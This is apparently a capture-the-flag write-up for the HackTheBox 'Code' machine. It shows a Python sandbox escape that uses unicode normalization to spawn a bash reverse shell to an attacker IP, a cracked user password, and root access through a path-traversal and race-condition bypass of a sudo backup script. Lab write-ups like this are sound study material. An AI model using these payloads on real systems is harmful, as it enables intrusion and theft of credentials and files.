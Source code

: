 ```yaml
---
layout: post
title: HTB - code
date: 2025-08-01 09:54 -0400
---
```


| {{ 'code' | machine_img }} | Easy linux box. Starts with a simple python sandbox. Then we crack some hashes to get to the martin user. Finally we abuse a shell script to get root. |

## nmap
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-23 09:34 -04
Nmap scan report for 10.10.11.62
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5b97cc4503295bcc26517df51a27abd (RSA)
|   256 94b525549b68afbe40e11da86b850d01 (ECDSA)
|_  256 128cdc97ad8600b488e229cf69b56596 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.90 seconds
```

It is a python code interpreter.
![code1](/assets/img/code1.png)

Has some kinda of filter on it:
![code2](/assets/img/code2.png)

Looks to be just a string filter so any mutation on a string will allow us to bypass it.

My favorite way is by using the python weird normalization feature [pep-3131](https://peps.python.org/pep-3131/):

It allows us to use unicode characters that get converted to ascii:
```python
𝕤𝕪𝕤.𝕞𝕠𝕕𝕦𝕝𝕖𝕤['so'[::-1]].𝕤𝕪𝕤𝕥𝕖𝕞("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'")
```

# app-production
```bash
app-production@code:~/app$ cat ~/user.txt
b5c84***************************
```

## users with shell
```bash
app-production@code:~/app$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
app-production:x:1001:1001:,,,:/home/app-production:/bin/bash
martin:x:1000:1000:,,,:/home/martin:/bin/bash
```

Dumping the db and checking crackstation gives two passwords, one works for martin ssh:
![code3](/assets/img/code3.png)

- development:development
- martin:nafeelswordsmaster

# martin

Looks like we need to exploit the `backy.sh` shell script
```bash
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

Here is the script:
```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

Seems to be just a wrapper for [backy](https://github.com/vdbsh/backy). Which is also a wrapper to rsync and tar.

![code4](/assets/img/code4.png)

The script takes a json file as input and does some validations.

The json file need to have the following format:
```json
{
	"destination": "/home/martin/backups/",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/app-production/app"
	],

	"exclude": [
		".*"
	]
}
```

The first check tries to filter against path traversals:

```bash
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json"
```

The second one checks if the starting dir is on the allowed paths:

```bash
allowed_paths=("/var/" "/home/")

...

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}
```

I couldn't bypass the second one.
In the first one gsub doesn't recursively removes the path traversal. So we can just do:
```json
{
  "destination": "/dev/shm",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root/"
  ]
}
```

A second way of bypassing both checks is by doing a race condition. You open to shells and do:
```bash
# shell 1
while :; do sudo /usr/bin/backy.sh ./task.json; done
# shell 2
cp task.json bak.json
while :; do cat solution.json > task.json; cat bak.json > task.json; done
```

Then you just read the backup at for the flag `/dev/shm/code_root_2025_August.tar.bz2`.

```bash
martin@code:~$ cat root/root.txt
ddeb9***************************
```

__You can get the root shell by reading /root/.ssh/id_rsa__
